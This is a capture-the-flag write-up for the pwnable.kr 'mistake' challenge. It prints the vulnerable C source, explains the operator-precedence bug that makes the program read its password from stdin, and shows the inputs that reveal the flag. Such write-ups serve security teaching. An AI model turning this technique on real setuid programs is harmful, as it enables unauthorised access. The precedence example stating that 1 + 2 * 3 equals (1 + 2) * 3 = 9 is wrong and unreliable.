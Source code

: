# mistake

## Description

mistake - 1 pt

>We all make mistakes, let's move on. <br>
>(don't take this too seriously, no fancy hacking skill is required at all) <br> <br>
>This task is based on real event <br>
>Thanks to dhmonkey <br> <br>
>hint : operator priority <br> <br>
>ssh mistake@pwnable.kr -p2222 (pw:guest)


## Solution

### Background

#### Operator Priority

Operator priority is the order in which operators are evaluated when an expression is evaluated. For example, in the expression 1 + 2 * 3, the multiplication operator has higher priority than the addition operator; therefore, the expression is evaluated as (1 + 2) * 3 = 9.

The following table lists the operators in order of decreasing priority. Operators at the top of the table have the highest priority; operators at the bottom have the lowest priority.

| Operator | Description |
|----------|-------------|
| () [] -> . | postfix |
| ++ -- ! ~ + - (type) * & sizeof | unary |
| * / % | multiplicative |
| + - | additive |
| << >> | shift |
| < <= > >= | relational |
| == != | equality |
| & | bitwise AND |
| ^ | bitwise XOR |
| \| | bitwise OR |
| && | logical AND |
| \|\| | logical OR |
| ?: | conditional |
| = += -= *= /= %= &= ^= <<= >>= | assignment |
| , | comma |


### Exploit

As always, we start by examining our permissions and the available files:

```bash
$ id
uid=1017(mistake) gid=1017(mistake) groups=1017(mistake)
```

```bash
$ ls -l
total 24
-r-------- 1 mistake_pwn root      51 Jul 29  2014 flag
-r-sr-x--- 1 mistake_pwn mistake 8934 Aug  1  2014 mistake
-rw-r--r-- 1 root        root     792 Aug  1  2014 mistake.c
-r-------- 1 mistake_pwn root      10 Jul 29  2014 password
```

Let's examine the source code:

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
	int i;
	for(i=0; i<len; i++){
		s[i] ^= XORKEY;
	}
}

int main(int argc, char* argv[]){
	
	int fd;
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
	}

	printf("do not bruteforce...\n");
	sleep(time(0)%20);

	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;		
	}

	char pw_buf2[PW_LEN+1];
	printf("input password : ");
	scanf("%10s", pw_buf2);

	// xor your input
	xor(pw_buf2, 10);

	if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
		printf("Password OK\n");
		system("/bin/cat flag\n");
	}
	else{
		printf("Wrong Password\n");
	}

	close(fd);
	return 0;
}
```

The program starts by opening the file "/home/mistake/passworod/", which is owned by root and has permissions 0400. It then sleeps for a random amount of time between 0 and 20 seconds.

Next, it appears to read the password from the file into a buffer, and then prompts the user for a password. The user's input is then XOR'd with the value 1, and compared to the password read from the file. If the two values match, the program prints the flag.

Taking a closer look at the opening of the password file, we see that `fd` isn't assigned with the actual file descriptor of the password file, but the result of the comparison `open("/home/mistake/password",O_RDONLY,0400) < 0`, because of operator priority. 

This means that if the file is opened successfully, fd will be assigned the value `0`, which is the file descriptor for stdin. So, *we* enter both passwords that are compared.

For example, we can take the passwords `@@@@@@@@@@` and `AAAAAAAAAA`. Indeed `@@@@@@@@@@` XOR'd with 1 is `AAAAAAAAAA`, so the program will print the flag:

```bash
$ ./mistake
do not bruteforce...
@@@@@@@@@@
input password : AAAAAAAAAA
Password OK
Mommy, the operator priority always confuses me :(
```